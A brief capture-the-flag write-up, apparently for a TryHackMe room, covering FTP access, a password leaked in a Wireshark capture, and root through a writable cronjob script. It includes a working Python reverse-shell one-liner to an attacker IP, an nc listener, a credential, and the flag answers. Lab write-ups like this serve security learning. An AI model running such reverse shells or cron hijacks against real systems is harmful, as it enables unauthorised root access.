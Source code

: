 # ingredient

ftp into the machine  
put php reverse shell and linpeas in the ftp folder  
recipe.txt --> secret ingredient  
<details>
<summary>ingredient</summary>
love
</details>

# user.txt

in the incidents folder is a wireshark capture  
download it from the ftp folder  
use wireshark to scroll through all tcp entries  
find a login attempt from lennie `c4ntg3t3n0ughsp1c3`  
ssh with lennie and the password and find the flag  
<details>
<summary>user.txt</summary>
THM{03ce3d619b80ccbfb3b7fc81e46c0e79}
</details>

# root.txt

found /scripts/startup_list.sh in lennies home folder -> cronjob that executes /etc/print.sh as root every minute  
put a reverse shell in the file `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.9.96",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'` `nc -lvnp 1234`  
<details>
<summary>root.txt</summary>
THM{f963aaa6a430f210222158ae15c3d76d}
</details>

